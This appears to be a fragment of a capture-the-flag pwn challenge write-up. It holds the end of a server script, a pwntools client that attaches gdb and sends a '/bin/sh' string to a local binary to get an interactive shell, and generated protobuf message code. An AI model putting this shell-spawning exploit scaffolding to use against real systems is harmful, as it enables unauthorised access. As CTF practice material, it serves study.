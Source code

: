 ```python
    HOST = '0.0.0.0'
    PORT = 12345
    start_server(HOST, PORT)
```
```python
# client.py
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="debug",
)
def debug(io):
    gdb.attach(io,
'''
b *0x54688a
'''
)

io = process("./oddclient")
debug(io)
io.sendlineafter(b'ip: ','0.0.0.0')
io.sendlineafter(b'port: ','12345')
io.sendline(b'/bin/sh\x00')

io.interactive()
```
```python
# odd_pb2.py
# -*- coding: utf-8 -*-
# Generated by the protocol buffer compiler.  DO NOT EDIT!
# source: odd.proto
"""Generated protocol buffer code."""
from google.protobuf.internal import builder as _builder
from google.protobuf import descriptor as _descriptor
from google.protobuf import descriptor_pool as _descriptor_pool
from google.protobuf import symbol_database as _symbol_database
# @@protoc_insertion_point(imports)

_sym_db = _symbol_database.Default()




DESCRIPTOR = _descriptor_pool.Default().AddSerializedFile(b'\n\todd.proto\"L\n\x07Message\x12\r\n\x05magic\x18\x01 \x01(\x05\x12\x0b\n\x03seq\x18\x02 \x01(\x05\x12\x17\n\x06opcode\x18\x03 \x01(\x0e\x32\x07.Opcode\x12\x0c\n\x04\x63ont\x18\x04 \x01(\x0c*>\n\x06Opcode\x12\x0c\n\x08OP_HELLO\x10\x00\x12\x0e\n\nOP_SESSION\x10\x01\x12\n\n\x06OP_MSG\x10\x02\x12\n\n\x06OP_END\x10\x03\x62\x06proto3')

_builder.BuildMessageAndEnumDescriptors(DESCRIPTOR, globals())
_builder.BuildTopDescriptorsAndMessages(DESCRIPTOR, 'odd_pb2', globals())
if _descriptor._USE_C_DESCRIPTORS == False:

  DESCRIPTOR._options = None
  _OPCODE._serialized_start=91
  _OPCODE._serialized_end=153
  _MESSAGE._serialized_start=13
  _MESSAGE._serialized_end=89
# @@protoc_insertion_point(module_scope)
```
